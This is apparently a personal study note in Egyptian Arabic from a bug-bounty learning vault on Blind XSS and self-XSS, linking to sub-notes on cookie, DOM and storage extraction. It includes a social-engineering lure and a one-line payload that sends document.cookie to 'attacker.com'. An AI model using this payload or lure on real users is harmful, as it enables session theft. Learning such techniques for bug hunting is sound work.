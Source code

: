 #### شرحها علشان تفهمها :   
- [[شرح الخطوه Blind XSS Payloads]]
- [[شرح فديوهات لل الخطوة Blind XSS Payloads]]


### طرق الاستغلال :
- ء
	- [[سيناريوهات اللي هستخدمها في الخطوه  Blind XSS Payloads#أ. حقن لتأكيد التنفيذ]]
	- [[سيناريوهات اللي هستخدمها في الخطوه  Blind XSS Payloads#ب. استخراج ملفات تعريف الارتباط]]
	- [[سيناريوهات اللي هستخدمها في الخطوه  Blind XSS Payloads#ج. استخراج محتوى DOM]]
	- [[سيناريوهات اللي هستخدمها في الخطوه  Blind XSS Payloads#د. استخراج بيانات التخزين]]
	- [[سيناريوهات اللي هستخدمها في الخطوه  Blind XSS Payloads#هـ. حقن مع التعتيم]]

#### ✅ فكرة الهجوم:

الضحية هو اللي بينفذ الكود على نفسه عن طريق social engineering. مش بيدفعوا فيه فلوس في Bug Bounty، لكن ممكن يتربط بـ CSRF أو CORS.

#### ✅ مثال:

"انسخ الكود ده والصقه في Console عشان تفوز بجائزة":
```javascript
fetch('http://attacker.com/steal?cookie=' + document.cookie)
```

### البايلود اللي تستخدمها :

![XSS_exploit_pyloads.txt](attachments/XSS_exploit_pyloads.txt)
#### افكار عليها :
#XSS_exploit